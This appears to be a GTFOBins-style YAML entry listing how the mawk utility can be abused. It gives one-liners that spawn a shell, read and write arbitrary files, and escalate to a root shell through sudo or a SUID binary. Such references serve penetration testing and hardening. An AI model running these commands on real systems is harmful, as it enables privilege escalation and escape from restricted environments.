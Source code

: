 ```yaml
---
functions:
  shell:
    - code: mawk 'BEGIN {system("/bin/sh")}'
  file-write:
    - code: |
        LFILE=file_to_write
        mawk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }'
  file-read:
    - code: |
        LFILE=file_to_read
        mawk '//' "$LFILE"
  sudo:
    - code: sudo mawk 'BEGIN {system("/bin/sh")}'
  limited-suid:
    - code: ./mawk 'BEGIN {system("/bin/sh")}'
---
```


